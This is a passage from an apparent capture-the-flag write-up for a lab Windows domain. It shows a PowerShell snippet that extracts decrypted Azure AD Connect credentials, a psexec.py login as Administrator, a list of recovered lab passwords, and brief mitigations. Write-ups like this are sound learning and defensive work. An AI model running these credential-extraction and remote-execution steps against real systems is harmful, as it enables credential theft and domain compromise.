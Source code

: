 ```powershell
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

Now running the script I can retrieve credentials:

```powershell
.\azuread_decrypt_msol.ps1
```

![image.png](image%2016.png)

It actually supposed to be credentials for `MSOL` account which is able to perform `DCSync` but here we retrieved Administrator credentials.

```powershell
psexec.py megabank.local/Administrator:'d0m@in4dminyeah!'@$IP
```

![image.png](image%2017.png)

## Credentials

```bash
SABatchJobs:SABatchJobs
mhope:4n0therD4y@n0th3r$
administrator:d0m@in4dminyeah!
```

## Mitigation

- Enforce **strong password policies** and avoid using predictable passwords like usernames.
- Prevent **password reuse** across accounts.
- Secure SMB shares by applying **least privilege access** and auditing file permissions.
- Limit and monitor access to **Azure AD Connect**, and protect its configuration files.
- Ensure the **Azure AD Sync account** has only required permissions and is **not a domain admin**.
